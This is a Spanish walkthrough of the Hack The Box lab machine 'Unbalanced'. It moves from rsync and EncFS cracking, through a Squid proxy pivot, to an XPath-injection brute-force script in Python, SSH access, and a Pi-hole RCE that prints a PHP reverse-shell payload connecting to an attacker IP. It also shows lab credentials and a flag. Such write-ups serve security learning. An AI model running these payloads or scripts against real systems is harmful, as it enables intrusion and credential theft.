



Unbalanced HTB
Recon
-
Se comprueba que la máquina está activa:
ping 10.10.10.200
Enum
-
Se realiza un scan de los 65535 puertos TCP:
nmap -sS -Pn -n --open --min-rate 5000 -p- -vvv -oG allPorts 10.10.10.200 -
Se realiza un analisis de los puertos abiertos:
nmap -sVC -p22,873,3128 10.10.10.200 -oN openPortsStarting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 01:58 CEST Nmap scan report for 10.10.10.200 Host is up (0.043s latency). PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) | ssh-hostkey: | 2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA) | 256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA) |_ 256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519) 873/tcp open rsync (protocol version 31) 3128/tcp open http-proxy Squid http proxy 4.6 |_http-title: ERROR: The requested URL could not be retrieved |_http-server-header: squid/4.6 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds -
Al encontrar un servicio rsync, se revisa y se encuentra data cifrada:
rsync -a 'rsync://10.10.10.200/conf_backups' mycopy --port 873ls -la mycopy drwxr-xr-x root root 4.1 KB Sat Apr 4 17:05:32 2020 . drwxr-xr-x root root 60 B Mon Aug 1 02:25:09 2022 .. .rw-r--r-- root root 288 B Sat Apr 4 17:05:31 2020 ,CBjPJW4EGlcqwZW4nmVqBA6 .rw-r--r-- root root 135 B Sat Apr 4 17:05:31 2020 -FjZ6-6,Fa,tMvlDsuVAO7ek .rw-r--r-- root root 1.3 KB Thu Apr 2 15:06:19 2020 .encfs6.xml .rw-r--r-- root root 154 B Sat Apr 4 17:05:32 2020 0K72OfkNRRx3-f0Y6eQKwnjn .rw-r--r-- root root 56 B Sat Apr 4 17:05:32 2020 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo- .rw-r--r-- root root 190 B Sat Apr 4 17:05:32 2020 2VyeljxHWrDX37La6FhUGIJS .rw-r--r-- root root 537 B Sat Apr 4 17:05:31 2020 3cdBkrRF7R5bYe1ZJ0KYy786 .rw-r--r-- root root 386 B Sat Apr 4 17:05:31 2020 3E2fC7coj5,XQ8LbNXVX9hNFhsqCjD-g3b-7Pb5VJHx3C1 .rw-r--r-- root root 560 B Sat Apr 4 17:05:31 2020 3xB4vSQH-HKVcOMQIs02Qb9, .rw-r--r-- root root 275 B Sat Apr 4 17:05:32 2020 4J8k09nLNFsb7S-JXkxQffpbCKeKFNJLk6NRQmI11FazC1 .rw-r--r-- root root 463 B Sat Apr 4 17:05:32 2020 5-6yZKVDjG4n-AMPD65LOpz6-kz,ae0p2VOWzCokOwxbt, .rw-r--r-- root root 2.1 KB Sat Apr 4 17:05:31 2020 5FTRnQDoLdRfOEPkrhM2L29P .rw-r--r-- root root 238 B Sat Apr 4 17:05:31 2020 5IUA28wOw0wwBs8rP5xjkFSs .rw-r--r-- root root 1.2 KB Sat Apr 4 17:05:31 2020 6R1rXixtFRQ5c9ScY8MBQ1Rg .rw-r--r-- root root 108 B Sat Apr 4 17:05:31 2020 7-dPsi7efZRoXkZ5oz1AxVd-Q,L05rofx0Mx8N2dQyUNA, .rw-r--r-- root root 1.3 KB Sat Apr 4 17:05:32 2020 7zivDbWdbySIQARaHlm3NbC-7dUYF-rpYHSQqLNuHTVVN1 .rw-r--r-- root root 1.0 KB Sat Apr 4 17:05:31 2020 8CBL-MBKTDMgB6AT2nfWfq-e .rw-r--r-- root root 29 B Sat Apr 4 17:05:31 2020 8e6TAzw0xs2LVxgohuXHhWjM .rw-r--r-- root root 152 B Sat Apr 4 17:05:31 2020 8XDA,IOhFFlhh120yl54Q0da .rw-r--r-- root root 5.6 KB Sat Apr 4 17:05:31 2020 9F9Y,UITgMo5zsWaP1TwmOm8EvDCWwUZurrL0TwjR,Gxl0 .rw-r--r-- root root 2.9 KB Sat Apr 4 17:05:31 2020 A4qOD1nvqe9JgKnslwk1sUzO .rw-r--r-- root root 1.1 KB Sat Apr 4 17:05:31 2020 a4zdmLrBYDC24s9Z59y-Pwa2 .rw-r--r-- root root 443 B Sat Apr 4 17:05:31 2020 Acv0PEQX8vs-KdK307QNHaiF .rw-r--r-- root root 935 B Sat Apr 4 17:05:31 2020 B6J5M3OP0X7W25ITnaZX753T .rw-r--r-- root root 3.6 KB Sat Apr 4 17:05:31 2020 c9w3APbCYWfWLsq7NFOdjQpA .rw-r--r-- root root 1.5 KB Sat Apr 4 17:05:32 2020 Chlsy5ahvpl5Q0o3hMyUIlNwJbiNG99DxXJeR5vXXFgHC1 .rw-r--r-- root root 332 B Sat Apr 4 17:05:31 2020 cwJnkiUiyfhynK2CvJT7rbUrS3AEJipP7zhItWiLcRVSA1 .rw-r--r-- root root 2.5 KB Sat Apr 4 17:05:31 2020 dF2GU58wFl3x5R7aDE6QEnDj .rw-r--r-- root root 1.2 KB Sat Apr 4 17:05:31 2020 dNTEvgsjgG6lKBr8ev8Dw,p7 .rw-r--r-- root root 2.3 KB Sat Apr 4 17:05:31 2020 ECXONXBBRwhb5tYOIcjjFZzh .rw-r--r-- root root 1.4 KB Sat Apr 4 17:05:32 2020 F4F9opY2nhVVnRgiQ,OUs-Y0 .rw-r--r-- root root 354 B Sat Apr 4 17:05:32 2020 FGZsMmjhKz7CJ2r-OjxkdOfKdEip4Gx2vCDI24GXSF5eB1 .rw-r--r-- root root 3.2 KB Sat Apr 4 17:05:31 2020 FSXWRSwW6vOvJ0ExPK0fXJ6F .rw-r--r-- root root 422 B Sat Apr 4 17:05:31 2020 gK5Z2BBMSh9iFyCFfIthbkQ6 .rw-r--r-- root root 2.3 KB Sat Apr 4 17:05:31 2020 gRhKiGIEm4SvYkTCLlOQPeh- .rw-r--r-- root root 1.9 KB Sat Apr 4 17:05:32 2020 hqZXaSCJi-Jso02DJlwCtYoz .rw-r--r-- root root 1.8 KB Sat Apr 4 17:05:32 2020 iaDKfUAHJmdqTDVZsmCIS,Bn .rw-r--r-- root root 95 B Sat Apr 4 17:05:31 2020 IymL3QugM,XxLuKEdwJJOOpi .rw-r--r-- root root 4.5 KB Sat Apr 4 17:05:31 2020 jIY9q65HMBxJqUW48LJIc,Fj .rw-r--r-- root root 158 B Sat Apr 4 17:05:32 2020 Kb-,NDTgYevHOGdHCYsSQhhIHrUGjiM6i2JZcl,-PKAJm0 .rw-r--r-- root root 4.9 KB Sat Apr 4 17:05:31 2020 kdJ5whfqyrkk6avAhlX-x0kh .rw-r--r-- root root 657 B Sat Apr 4 17:05:31 2020 kheep9TIpbbdwNSfmNU1QNk- .rw-r--r-- root root 518 B Sat Apr 4 17:05:31 2020 Kpo3MHQxksW2uYX79XngQu-f .rw-r--r-- root root 340 B Sat Apr 4 17:05:31 2020 KPYfvxIoOlrRjTY18zi8Wne- .rw-r--r-- root root 1.4 KB Sat Apr 4 17:05:31 2020 KtFc,DR7HqmGdPOkM2CpLaM9 .rw-r--r-- root root 612 B Sat Apr 4 17:05:31 2020 l,LY6YoFepcaLg67YoILNGg0 .rw-r--r-- root root 46 B Sat Apr 4 17:05:31 2020 lWiv4yDEUfliy,Znm17Al41zi0BbMtCbN8wK4gHc333mt, .rw-r--r-- root root 1.6 KB Sat Apr 4 17:05:31 2020 mMGincizgMjpsBjkhWq-Oy0D .rw-r--r-- root root 714 B Sat Apr 4 17:05:31 2020 Mv5TtpmUNnVl-fgqQeYAy8uu .rw-r--r-- root root 289 B Sat Apr 4 17:05:31 2020 MxgjShAeN6AmkH2tQAsfaj6C .rw-r--r-- root root 4.4 KB Sat Apr 4 17:05:31 2020 Ni8LDatT134DF6hhQf5ESpo5 .rw-r--r-- root root 2.1 KB Sat Apr 4 17:05:31 2020 Nlne5rpWkOxkPNC15SEeJ8g, .rw-r--r-- root root 199 B Sat Apr 4 17:05:32 2020 OFG2vAoaW3Tvv1X2J5fy4UV8 .rw-r--r-- root root 1.7 KB Sat Apr 4 17:05:31 2020 oPu0EVyHA6,KmoI1T,LTs83x .rw-r--r-- root root 914 B Sat Apr 4 17:05:32 2020 OvBqims-kvgGyJJqZ59IbGfy .rw-r--r-- root root 52 B Sat Apr 4 17:05:31 2020 pfTT,nZnCUFzyPPOeX9NwQVo .rw-r--r-- root root 1.0 KB Sat Apr 4 17:05:31 2020 pn6YPUx69xqxRXKqg5B5D2ON .rw-r--r-- root root 650 B Sat Apr 4 17:05:31 2020 q5RFgoRK2Ttl3U5W8fjtyriX .rw-r--r-- root root 660 B Sat Apr 4 17:05:32 2020 qeHNkZencKDjkr3R746ZzO5K .rw-r--r-- root root 820 B Sat Apr 4 17:05:32 2020 sfT89u8dsEY4n99lNsUFOwki .rw-r--r-- root root 2.9 KB Sat Apr 4 17:05:32 2020 sNiR-scp-DZrXHg4coa9KBmZ .rw-r--r-- root root 427 B Sat Apr 4 17:05:31 2020 StlxkG05UY9zWNHBhXxukuP9 .rw-r--r-- root root 17 B Sat Apr 4 17:05:31 2020 TZGfSHeAM42o9TgjGUdOSdrd .rw-r--r-- root root 254 B Sat Apr 4 17:05:31 2020 uEtPZwC2tjaQELJmnNRTCLYU .rw-r--r-- root root 203 B Sat Apr 4 17:05:31 2020 vCsXjR1qQmPO5g3P3kiFyO84 .rw-r--r-- root root 309 KB Sat Apr 4 17:05:31 2020 VQjGnKU1puKhF6pQG1aah6rc .rw-r--r-- root root 2.0 KB Sat Apr 4 17:05:31 2020 W5,ILrUB4dBVW-Jby5AUcGsz .rw-r--r-- root root 670 B Sat Apr 4 17:05:32 2020 waEzfb8hYE47wHeslfs1MvYdVxqTtQ8XGshJssXMmvOsZLhtJWWRX31cBfhdVygrCV5 .rw-r--r-- root root 685 B Sat Apr 4 17:05:31 2020 Wr0grx0GnkLFl8qT3L0CyTE6 .rw-r--r-- root root 798 B Sat Apr 4 17:05:31 2020 X93-uArUSTL,kiJpOeovWTaP .rw-r--r-- root root 1.6 KB Sat Apr 4 17:05:31 2020 Ya30M5le2NKbF6rD-qD3M-7t .rw-r--r-- root root 1.9 KB Sat Apr 4 17:05:31 2020 Yw0UEJYKN,Hjf-QGqo3WObHy .rw-r--r-- root root 128 B Sat Apr 4 17:05:31 2020 Z8,hYzUjW0GnBk1JP,8ghCsC .rw-r--r-- root root 42 B Sat Apr 4 17:05:31 2020 ZvkMNEBKPRpOHbGoefPa737T .rw-r--r-- root root 2.9 KB Sat Apr 4 17:05:31 2020 ZXUUpn9SCTerl0dinZQYwxrx -
Todo cifrado excepto el directorio oculto .encfs6.xml:
Aqui se indica la aplicación usada (EncFS 1.9.5) para cifrar y sus keys correspondientes<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE boost_serialization> <boost_serialization signature="serialization::archive" version="7"> <cfg class_id="0" tracking_level="0" version="20"> <version>20100713</version> <creator>EncFS 1.9.5</creator> <cipherAlg class_id="1" tracking_level="0" version="0"> <name>ssl/aes</name> <major>3</major> <minor>0</minor> </cipherAlg> <nameAlg> <name>nameio/block</name> <major>4</major> <minor>0</minor> </nameAlg> <keySize>192</keySize> <blockSize>1024</blockSize> <plainData>0</plainData> <uniqueIV>1</uniqueIV> <chainedNameIV>1</chainedNameIV> <externalIVChaining>0</externalIVChaining> <blockMACBytes>0</blockMACBytes> <blockMACRandBytes>0</blockMACRandBytes> <allowHoles>1</allowHoles> <encodedKeySize>44</encodedKeySize> <encodedKeyData>GypYDeps2hrt2W0LcvQ94TKyOfUcIkhSAw3+iJLaLK0yntwAaBWj6EuIet0=</encodedKeyData> <saltLen>20</saltLen> <saltData>mRdqbk2WwLMrrZ1P6z2OQlFl8QU=</saltData> <kdfIterations>580280</kdfIterations> <desiredKDFDuration>500</desiredKDFDuration> </cfg> </boost_serialization>
Cracking KEY
-
Se procede a extraer el hash y crackearlo:
python /usr/share/john/encfs2john.py . .:$encfs$192*580280*0*20*99176a6e4d96c0b32bad9d4feb3d8e425165f105*44*1b2a580dea6cda1aedd96d0b72f43de132b239f51c224852030dfe8892da2cad329edc006815a3e84b887add python /usr/share/john/encfs2john.py . > hash_EncFS john -w=/usr/share/wordlists/rockyou.txt hash_EncFS Using default input encoding: UTF-8 Loaded 1 password hash (EncFS [PBKDF2-SHA1 256/256 AVX2 8x AES]) Cost 1 (iteration count) is 580280 for all loaded hashes Will run 2 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status bubblegum (.) 1g 0:00:00:21 DONE (2022-08-01 02:43) 0.04677g/s 33.67p/s 33.67c/s 33.67C/s bambam..marissa Use the "--show" option to display all of the cracked passwords reliably Session completed
Descifrar data con encFS
-
Tras revisar la documentación y obtener la clave procedemos a desencriptar la data:
encfs /home/x/Documentos/htb/unbalanced/mycopy /home/x/Documentos/htb/unbalanced/descifradoContraseña EncFS: ********* (bubblegum) ls descifrado 50-localauthority.conf debconf.conf fuse.conf libaudit.conf networkd.conf rsyncd.conf udev.conf 50-nullbackend.conf debian.conf gai.conf libc.conf nsswitch.conf rsyslog.conf update-initramfs.conf 51-debian-sudo.conf deluser.conf group.conf limits.conf org.freedesktop.PackageKit.conf semanage.conf user-dirs.conf 70debconf dhclient.conf hdparm.conf listchanges.conf PackageKit.conf sepermit.conf user.conf 99-sysctl.conf discover-modprobe.conf host.conf logind.conf pam.conf sleep.conf Vendor.conf access.conf dkms.conf initramfs.conf logrotate.conf pam_env.conf squid.conf wpa_supplicant.conf adduser.conf dns.conf input.conf main.conf parser.conf sysctl.conf x86_64-linux-gnu.conf bluetooth.conf dnsmasq.conf journald.conf mke2fs.conf protect-links.conf system.conf xattr.conf ca-certificates.conf docker.conf kernel-img.conf modules.conf reportbug.conf time.conf com.ubuntu.SoftwareProperties.conf fakeroot-x86_64-linux-gnu.conf ld.so.conf namespace.conf resolv.conf timesyncd.conf dconf framework.conf ldap.conf network.conf resolved.conf ucf.conf -
Se obtiene la configuración de squidproxy:
cat squid.conf | grep -v '#' | awk /./ acl SSL_ports port 443 acl CONNECT method CONNECT http_access deny !Safe_ports http_access deny CONNECT !SSL_ports http_access allow manager include /etc/squid/conf.d/* http_access allow localhost acl intranet dstdomain -n intranet.unbalanced.htb acl intranet_net dst -n 172.16.0.0/12 http_access allow intranet http_access allow intranet_net http_access deny all http_port 3128 coredump_dir /var/spool/squid refresh_pattern ^ftp: 1440 20% 10080 refresh_pattern ^gopher: 1440 0% 1440 refresh_pattern -i (/cgi-bin/|\?) 0 0% 0 refresh_pattern . 0 20% 4320 cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events cachemgr_passwd disable all cache disable -
Se configura el squidproxy en el foxyproxy por http, host 10.10.10.200, port 3128:

-
Acceso con autenticación a funcionalidades de SquidProxy:
curl -s http://10.10.10.200:3128/squid-internal-mgr/menu -u 'cache_mgr:Thah$Sh1'| grep -v disabled* Se pueden ver las ips y dns de los hosts:menu Cache Manager Menu protected pconn Persistent Connection Utilization Histograms protected mem Memory Utilization protected diskd DISKD Stats protected fqdncache FQDN Cache Stats and Contents protected filedescriptors Process Filedescriptor Allocation protected objects All Cache Objects protected vm_objects In-Memory and In-Transit Objects protected counters Traffic and Resource Counters protected 5min 5 Minute Average of Counters protected 60min 60 Minute Average of Counters protected histograms Full Histogram Counts protected cbdata Callback Data Registry Contents protected sbuf String-Buffer statistics protected events Event Queue protectedcurl -s http://10.10.10.200:3128/squid-internal-mgr/fqdncache -u 'cache_mgr:Thah$Sh1'FQDN Cache Statistics: FQDNcache Entries In Use: 10 FQDNcache Entries Cached: 9 FQDNcache Requests: 361 FQDNcache Hits: 0 FQDNcache Negative Hits: 171 FQDNcache Misses: 190 FQDN Cache Contents: Address Flg TTL Cnt Hostnames 127.0.1.1 H -001 2 unbalanced.htb unbalanced ::1 H -001 3 localhost ip6-localhost ip6-loopback 172.31.179.2 H -001 1 intranet-host2.unbalanced.htb 172.31.179.3 H -001 1 intranet-host3.unbalanced.htb 10.10.10.200 N -797 0 127.0.0.1 H -001 1 localhost 172.17.0.1 H -001 1 intranet.unbalanced.htb ff02::1 H -001 1 ip6-allnodes ff02::2 H -001 1 ip6-allrouters -
Realizando un curl a través del proxy a las al rango de direcciones que hemos visto 172.31.179.x se puede ver que hay un nodo en mantenimiento(desarrollo):
curl --proxy 10.10.10.200:3128 172.31.179.1 Host temporarily taken out of load balancing for security maintenance. curl --proxy 10.10.10.200:3128 172.31.179.2/intranet.php <!DOCTYPE html> <html lang="en"> <title>Unbalanced Design. Intranet.</title> <meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1">
SQLi en nodo en mantenimiento
-
Se observa un tamaño de respuesta diferente en el campo password al insertar una comilla, tras realizar la inyección con Burp estos son los resultados:
POST http://172.31.179.1/intranet.php HTTP/1.1 Host: 172.31.179.1 User-Agent: Mozilla/4.77 en (X11; U; Linux 2.4.9 i686) Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 43 Origin: http://172.31.179.1 DNT: 1 Connection: close Referer: http://172.31.179.1/intranet.php Upgrade-Insecure-Requests: 1 Sec-GPC: 1 Username=admin&Password='or'1'='1 -
Parte de la respuesta:
XPATH injection - Link del paper
-
Similar la sintaxis a sql injection, esta injección da una respuesta de mas de 10000 kbytes, se puede ver todo el contenido de la tabla actual (nombres de usuario):
-
Injeccion para ver la longitud del password
-
Inyección para ver la primera letra del password:
-
Conociendo las inyecciones se crea un script en python para automatizar el ataque:
#!/usr/bin/python3 from pwn import * import pdb, string, requests def def_handler(sig, frame): print("\n[!] Saliendo ...") sys.exit(1) url = "http://172.31.179.1/intranet.php" proxy = {'http': 'http://10.10.10.200:3128'} usuarios = ["rita", "jim", "bryan", "sarah"] characters = string.ascii_letters + string.digits + string.punctuation def getPassword(url, proxy): for user in usuarios: password = "" for position in range(1, 30): for char in characters: payload = "test' or Username='%s' and substring(Password,%d,1)='%s" % (user, position, char) post_data = { 'Username' : 'test', 'Password' : payload } r = requests.post(url, data = post_data, proxies=proxy) if "Invalid credentials" not in r.text: #print(r.text) if char == "'": break password = password + char print("Posición %d: " % position + password) break if char == "'": break print("La password del usuario %s es: " % user + password) if __name__ == '__main__': getPassword(url, proxy) -
Se obtienen los siguientes resultados:
Explotation - Intrusion
-
Viendo que las password obtenidas no dan ningún acceso por web, se prueba con el servicio SSH:
ssh bryan@10.10.10.200bryan@10.10.10.200's password: Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Wed Jun 17 14:16:06 2020 from 10.10.10.4 -bash: warning: setlocale: LC_ALL: cannot change locale (es_ES.UTF-8) bryan@unbalanced:~$ cat user.txt 4af2cbfd2c0dabcf8af24369b936d00e -
Se puede ver que han montado un contenedor de docker con Pi-Hole con password de admin temporal por defecto, y se crea un Local Port Fordwarding con SSH para acceder:
bryan@unbalanced:~$ cat TODO ############ # Intranet # ############ * Install new intranet-host3 docker [DONE] * Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE] * Test intranet-host3 [DONE] * Add intranet-host3 to load balancer [DONE] * Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE] * Fix intranet-host2 [DONE] * Re-add intranet-host2 to load balancer (set default weight) [DONE] - Fix intranet-host1 [TODO] - Re-add intranet-host1 to load balancer (set default weight) [TODO] ########### # Pi-hole # ########### * Install Pi-hole docker (only listening on 127.0.0.1) [DONE] * Set temporary admin password [DONE] * Create Pi-hole configuration script [IN PROGRESS] - Run Pi-hole configuration script [TODO] - Expose Pi-hole ports to the network [TODO] bryan@unbalanced:~$ ss -tuna | grep 127.0.0.1 udp UNCONN 0 0 127.0.0.1:5553 0.0.0.0:* tcp LISTEN 0 128 127.0.0.1:8080 0.0.0.0:* tcp LISTEN 0 128 127.0.0.1:5553 0.0.0.0:* -
Tras acceder se puede ver un leak de ip interna de Pi-Hole, y accedemos a través del SquidProxy:

Escalado de Privilegios
-
Tras acceder al panel de pihole con la contraseña "admin", comprobamos que tiene la version 4.3.2 vulnerable a RCE, la cual permite acceder con una shell reversa:
python pihole.py -u http://localhost -i 10.10.14.11 -p 443 -pass admin ╔═╗┬ ┬┌┐┌ ╔═╗┬┬ ┬┌─┐┬ ┌─┐ ╠═╝││││││ ╠═╝│├─┤│ ││ ├┤ ╩ └┴┘┘└┘ ╩ ┴┴ ┴└─┘┴─┘└─┘ by @CyberVaca [+] Token: rymbP9XshULuGsr7p9DWQ1wRocuKIQ0M5r29qSmU1lA= [+] Payload: php -r '$sock=fsockopen("10.10.14.11", 443);exec("/bin/sh -i <&3 >&3 2>&3");' [+] Sending Payload... -
Se puede observar una password en la configuración de un fichero, es uno de los scripts indicados en TODO pendientes de terminar:
www-data@pihole:/root$ cat pihole_config.sh #!/bin/bash # Add domains to whitelist /usr/local/bin/pihole -w unbalanced.htb /usr/local/bin/pihole -w rebalanced.htb # Set temperature unit to Celsius /usr/local/bin/pihole -a -c # Add local host record /usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1 # Set privacy level /usr/local/bin/pihole -a -l 4 # Set web admin interface password /usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!' # Set admin email /usr/local/bin/pihole -a email admin@unbalanced.htb -
Nos convertimos en root desde la conexión de la máquina unbalanced: